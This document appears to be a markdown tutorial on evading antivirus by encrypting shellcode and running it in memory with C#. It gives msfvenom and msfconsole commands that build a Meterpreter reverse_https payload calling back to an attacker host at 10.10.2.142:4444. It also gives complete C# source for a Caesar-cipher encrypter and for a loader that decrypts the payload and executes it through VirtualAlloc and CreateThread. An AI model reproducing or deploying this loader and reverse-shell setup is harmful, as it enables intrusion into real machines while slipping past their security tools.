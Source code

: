 # Full Process: Encrypting & Running Shellcode in C#

- **Generate & encrypt shellcode (Helper app)**
- **Format and print encrypted payload**
- **Use the encrypted payload in your loader**
- **Decrypt at runtime & execute**

## 1. **Overview**

- **Problem:** Raw shellcode is easily flagged by AV (signatures).
- **Solution:** Encrypt shellcode → store encrypted payload → decrypt at runtime → execute in memory.
- **Method used here:** Simple Caesar Cipher with key = 2.
    - Encryption: `(byte + 2) & 0xFF`
    - Decryption: `(byte - 2) & 0xFF`

- Create Shellcode
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.2.142 LPORT=4444 -f csharp 
    ```
- Create listener
  ```bash
   msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 10.10.2.142; set LPORT 4444; exploit"
  ```
---

## 2. **Step 1 – Encryption Helper App**

This **standalone app** takes raw shellcode, applies Caesar Cipher encryption, and prints it in **msfvenom format** (`0x##,`).

```csharp
using System;
using System.IO;
using System.Text;

namespace Encrypter
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf;

            if (args.Length == 0)
            {
                Console.WriteLine("Usage:");
                Console.WriteLine("  Encrypter.exe <shellcode.txt | raw bytes>");
                Console.WriteLine("Example (file): Encrypter.exe shellcode.txt");
                Console.WriteLine("Example (inline): Encrypter.exe 0xfc,0x48,0x83,0xe4,0xf0");
                return;
            }

            // Option 1: Read from file if argument is a file
            if (File.Exists(args[0]))
            {
                string fileContent = File.ReadAllText(args[0]).Trim();
                buf = ParseShellcode(fileContent);
            }
            else
            {
                // Option 2: Treat argument as inline shellcode string
                buf = ParseShellcode(args[0]);
            }

            // Encrypt shellcode
            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            // Print in msfvenom-style format (no trailing comma at the end)
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            for (int i = 0; i < encoded.Length; i++)
            {
                hex.AppendFormat("0x{0:x2}", encoded[i]);
                if (i != encoded.Length - 1)
                {
                    hex.Append(", ");
                }
            }

            Console.WriteLine("Encrypted Payload:\n" + hex.ToString());
        }

        // Helper: Parse shellcode string (e.g., "0xfc,0x48,0x83")
        static byte[] ParseShellcode(string input)
        {
            string[] parts = input.Split(new char[] { ',', ' ', '\n', '\r' }, StringSplitOptions.RemoveEmptyEntries);
            byte[] result = new byte[parts.Length];

            for (int i = 0; i < parts.Length; i++)
            {
                result[i] = Convert.ToByte(parts[i].Replace("0x", ""), 16);
            }

            return result;
        }
    }
}
```
    
+  ✅ Output

  ```
  Encrypted Payload:
  0xfe, 0x4a, 0x85, 0xe6, 0xf2, ...
  ```

Now you copy this **encrypted payload** into the loader.

---

## 3. **Step 2 – Shellcode Loader with Decryption**

This is the **final executable** that holds encrypted shellcode, decrypts it at runtime, and executes it in memory.

```csharp
using System;
using System.Runtime.InteropServices;

namespace Loader
{
    class Program
    {
        // Win32 API imports
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
            uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle,
            UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            // Encrypted shellcode (from Encrypter app)
            byte[] buf = new byte[] {
                0xfe, 0x4a, 0x85, 0xe6, 0xf2, 0xea, 0xce, 0x02,..... 
              };

            //  Decrypt shellcode at runtime (Caesar Cipher, key=2)
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }

            //  Allocate memory for shellcode
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)buf.Length,
                0x3000, 0x40); // MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE

            //  Copy decrypted shellcode into memory
            Marshal.Copy(buf, 0, addr, buf.Length);

            //  Create thread to run shellcode
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr,
                IntPtr.Zero, 0, IntPtr.Zero);

            //  Wait indefinitely for shellcode execution
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

---

## 4. **Execution Flow**

```
Raw Shellcode → Encrypt with Helper → Encrypted Payload → Loader (buf)
→ Decrypt at Runtime → Allocate Memory → Copy to Memory → Execute with CreateThread
```
<img width="1888" height="399" alt="image" src="https://github.com/user-attachments/assets/02a79f97-ec01-4482-9259-0d61b91b8b52" />

